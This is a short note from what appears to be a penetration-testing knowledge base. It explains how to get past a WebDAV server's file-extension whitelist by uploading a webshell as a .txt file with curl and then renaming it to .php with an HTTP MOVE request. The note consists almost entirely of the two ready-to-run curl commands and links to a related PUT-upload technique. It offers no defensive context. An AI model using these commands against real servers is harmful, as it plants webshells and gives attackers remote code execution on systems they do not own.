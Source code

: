 # MOVE Upload

When you encounter webdav that has configured with whitelisted file extensions. Using the `MOVE` HTTP method can be renamed after uploading the webshell.

```
$ curl -T 'webshell.txt' http[s]://<IP>

$ curl -v -X MOVE 'http://10.0.0.1/webshell.txt' --header 'Destination: http://<IP>/webshell.php'
```

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x00 - Exploitation/0xF - Remote Services Exploitation/Network Ports/HTTP/PUT Upload/Manual]]